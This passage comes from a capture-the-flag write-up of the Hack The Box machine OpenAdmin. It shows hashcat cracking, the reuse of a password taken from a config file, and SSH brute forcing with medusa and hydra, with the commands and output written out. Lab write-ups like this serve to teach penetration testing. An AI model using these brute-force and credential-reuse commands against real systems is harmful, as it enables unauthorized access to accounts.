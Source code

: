 > `-m 0` tells hashcat which mode to use. 0 is MD5.

![hashcat](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/openadmin/hashcat.png)

These credentials are for [http://10.10.10.171/ona/](http://10.10.10.171/ona/)

## User (jimmy) 

The password we found in `/opt/ona/www/local/config/database_settings.inc.php` (`n1nj4W4rri0R!`) worked to log in as jimmy with SSH.

### Bruteforcing SSH

#### `medusa`

```bash
$ cat users.txt 
jimmy
joanna
$ cat pass.txt 
n1nj4W4rri0R!
test
admin
$ medusa -h $TARGET -U users.txt -P pass.txt -M ssh 
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

ACCOUNT CHECK: [ssh] Host: 10.10.10.171 (1 of 1, 0 complete) User: jimmy (1 of 2, 0 complete) Password: n1nj4W4rri0R! (1 of 3 complete)
ACCOUNT FOUND: [ssh] Host: 10.10.10.171 User: jimmy Password: n1nj4W4rri0R! [SUCCESS]
ACCOUNT CHECK: [ssh] Host: 10.10.10.171 (1 of 1, 0 complete) User: joanna (2 of 2, 1 complete) Password: n1nj4W4rri0R! (1 of 3 complete)
ACCOUNT CHECK: [ssh] Host: 10.10.10.171 (1 of 1, 0 complete) User: joanna (2 of 2, 1 complete) Password: test (2 of 3 complete)
ACCOUNT CHECK: [ssh] Host: 10.10.10.171 (1 of 1, 0 complete) User: joanna (2 of 2, 1 complete) Password: admin (3 of 3 complete)
```

#### `hydra` 

We could done that with `hydra` too:

> `hydra -L users.txt -P pass.txt $TARGET ssh`

![hydra](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/openadmin/hydra.png)

![ssh jimmy](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/openadmin/ssh-jimmy.png)

### `/var/www/internal`

Let's go back to `/var/www/internal` _(the folder that we did not have access to before)_:

![internnal sources](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/openadmin/internal-src.png)
